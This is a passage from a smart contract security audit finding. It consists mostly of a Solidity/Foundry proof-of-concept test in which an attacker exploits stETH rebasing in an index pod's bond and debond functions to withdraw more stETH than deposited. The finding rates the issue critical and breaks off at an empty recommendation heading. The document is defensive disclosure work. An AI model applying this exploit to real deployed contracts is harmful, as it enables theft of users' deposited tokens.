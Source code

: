 ```solidity
    steth.mint(alice, 5e18);

    // alice bonds
    vm.startPrank(alice);

    usdc.approve(address(index), type(uint256).max);
    steth.approve(address(index), type(uint256).max);

    index.bond(address(steth), 5e18);

    vm.stopPrank();

    // let's say steth rebases to double
    steth.mint(address(index), steth.balanceOf(address(index)));

    // seed bob
    uint256 bobInitialUsdc = 1990e18;
    uint256 bobInitialSteth = 10e18;
    usdc.mint(bob, bobInitialUsdc);
    steth.mint(bob, bobInitialSteth);

    // bob attacks the pod by depositing the same amount of steth as the balance of the pool, to use the original weights
    vm.startPrank(bob);

    usdc.approve(address(index), type(uint256).max);
    steth.approve(address(index), type(uint256).max);

    uint256 stEthIndexBalance = steth.balanceOf(address(index));

    index.bond(address(steth), stEthIndexBalance);

    address[] memory null1;
    uint8[] memory null2;
    index.debond(index.balanceOf(bob), null1, null2);

    console.log("Bob final USDC:", usdc.balanceOf(bob));
    console.log("Bob final stETH:", steth.balanceOf(bob));
    console.log("======================================");

    console.log("Bob stETH difference:", steth.balanceOf(bob) - bobInitialSteth);

    vm.stopPrank();
}
```

#### Impact

Critical. An attacker can steal tokens from the pod.

#### Recommendation

